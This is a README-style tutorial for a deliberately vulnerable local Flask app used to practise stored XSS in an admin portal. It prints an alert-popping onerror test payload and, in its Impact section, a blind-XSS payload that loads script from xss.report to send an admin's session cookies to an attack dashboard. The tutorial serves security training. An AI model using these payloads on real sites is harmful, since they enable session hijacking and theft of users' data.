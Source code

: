 <h1>Stored XSS In An Admin Portal</h1>

<h2>Overview</h2>

Stored-XSS can be a serious vulnerability, especially if your XSS Payloads trigger in an admin portal. Imagine your stored-blind xss payloads triggering in an admin portal, and you then recieve all of the
admin's session cookies. You could Session Hijack the administrator and cause negative effects for the website. And this all happened because someone forgot to sanitize user input somewhere.

Stored-XSS is fun to test for in Web Security, so I built a little python program that uses Flask to spin up a simple little application that let's you see what it looks like when your stored-xss payloads
trigger in an admin portal.

<h2>How To Use The Stored XSS Test Program</h2>

1. Copy, Create and Start the python file in my Stored-XSS Repository labeled 'stored-xss-in-admin-portal.py'. The file is located at https://github.com/dante-falls/Web-Security/blob/main/Client-Side-Vulnerabilities/Cross-Site-Scripting(XSS)/Stored-XSS/stored-xss-in-admin-portal.py. Start the python file with python or python3. Reference the image below.

![start-stored-xss-test-suite](https://github.com/user-attachments/assets/cf4f1b94-4ac0-41e8-940c-a974941adea3)


2. After starting the Stored XSS In Admin Portal program, open your browser and visit http://127.0.0.1:5000. Reference the image below to see the program opened in my browser.

![open-stored-xss-app-in-browser](https://github.com/user-attachments/assets/b0268ed0-3b6e-4983-93b2-448350682e32)

3. Store an xss payload in the 'Send Message' box, and then press send. You can test out this payload ```test';"/><img/src/onerror=alert(0)>``` Reference the image below.

![storing-an-xss-payload](https://github.com/user-attachments/assets/b0621f81-47c4-44ed-a4d0-6abc7e75a20b)

4. After your xss payload is stored, notice that a javascript alert pops up on your screen. Exit the javascript alert and notice your payload is stored in the page source. Reference the image below.

![xss-execution-after-payload-storage](https://github.com/user-attachments/assets/2115dcfc-5717-4983-ada7-c28aae090d98)

5. Now let's see what happens when an admin views our messages in their Admin portal. Travel to http://127.0.0.1:5000/admin in your browser, or click 'Admin Portal'. Notice that you are directed to the
   admin portal and a javascript alert box pops up on your screen. When the admin portal then loads, your xss payload is stored on the page and in the page source. Reference the image below.
   
![admin-portal-view-during-xss-execution](https://github.com/user-attachments/assets/e97e3e17-015f-4704-be0f-76f1d2fe32ae)

6. You can delete all stored messages with the 'Delete All Messages' buttons.

<h2>IMPACT - Why Is This Important?</h2>

Stored XSS can be used to steal data and hijack user sessions. To do this, instead of using ```test';"/><img/src/onerror=alert(0)>``` to make a javascript alert box pop up on the user's screen, we can use a javascript
payload that will exfiltrate the user's session cookies to our attack server. The payloads on xss.report can do this, therefor to steal steal an admin's cookies on our app at http://127.0.0.1:5000/admin, we can store a blind-xss payload like this ```test';"/><img/src/onerror=import('//xss.report/c/fakeUser')>``` on http://127.0.0.1:5000 using the 'Send Message' box, and when an admin reads the message, their data will be exfiltrated to my attack dashboard on xss.report



